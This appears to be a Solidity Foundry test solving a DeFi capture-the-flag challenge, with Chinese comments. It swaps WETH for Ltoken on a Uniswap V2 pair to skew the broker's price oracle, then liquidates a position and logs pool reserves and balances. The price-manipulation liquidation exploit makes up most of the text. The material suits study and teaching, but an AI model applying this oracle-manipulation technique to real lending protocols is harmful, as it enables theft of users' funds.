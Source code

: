 ```solidity
		path[0] = address(weth);
		path[1] = address(Ltoken);
		u_router.swapExactTokensForTokens(amount_WETH, 0, path, address(this), type(uint256).max);

        console.log();
        console.log("======after swap 25WETH for Ltoken======");
        (uint112 reserve0_afterSwap, uint112 reserve1_afterSwap , uint32 zx ) = pair.getReserves();
        console.log("the pool");
        console.log("   reserve0_WETH_after",reserve0_afterSwap);
        console.log("   reserve1_Ltoken_after",reserve1_afterSwap);
        console.log("My asset");
        console.log("   WETH", weth.balanceOf(address(this)));
        console.log("   Ltoken", Ltoken.balanceOf(address(this)));
        console.log("WETH price",broker.rate());
        console.log("broker's WETH",weth.balanceOf(address(broker)));

        // 开始清算
        uint amount_liquidate = 24 ether * broker.rate();
        broker.liquidate(address(level), amount_liquidate);

        console.log();
        console.log("==========after liquidate=========");
        (uint112 reserve0_afterLiquidate, uint112 reserve1_afterLiquidate , uint32 zzz ) = pair.getReserves();
        console.log("the pool");
        console.log("   reserve0_WETH_after",reserve0_afterLiquidate);
        console.log("   reserve1_Ltoken_after",reserve1_afterLiquidate);
        console.log("My asset");
        console.log("   WETH", weth.balanceOf(address(this)));
        console.log("   Ltoken", Ltoken.balanceOf(address(this)));
        console.log("WETH price",broker.rate());
        console.log("broker's WETH",weth.balanceOf(address(broker)));
        
        assertEq(level.isSolved(), true);
    }

    function pairFor(address factory, address tokenA, address tokenB) internal pure returns (address pair) {
        (address token0, address token1) = sortTokens(tokenA, tokenB);
        
        pair = address(uint160(uint256(keccak256(abi.encodePacked(
                hex'ff',
                factory,
                keccak256(abi.encodePacked(token0, token1)),
                // 这个是我编译出来的bytecode的哈希值
                hex'f0e60e1779ec5ef88ad36bab3e3e0cad28189353ab5bf1f719a2855de1c74e52' // init code hash
            )))));
    }
    function sortTokens(address tokenA, address tokenB) internal pure returns (address token0, address token1) {
        require(tokenA != tokenB, 'UniswapV2Library: IDENTICAL_ADDRESSES');
        (token0, token1) = tokenA < tokenB ? (tokenA, tokenB) : (tokenB, tokenA);
        require(token0 != address(0), 'UniswapV2Library: ZERO_ADDRESS');
    }

    // 部署WETH
    function deployHelper_weth(string memory what) public returns (address addr) {
        bytes memory bytecode = vm.getCode(what);
        assembly {
            addr := create(0, add(bytecode, 0x20), mload(bytecode))
        }
    }
```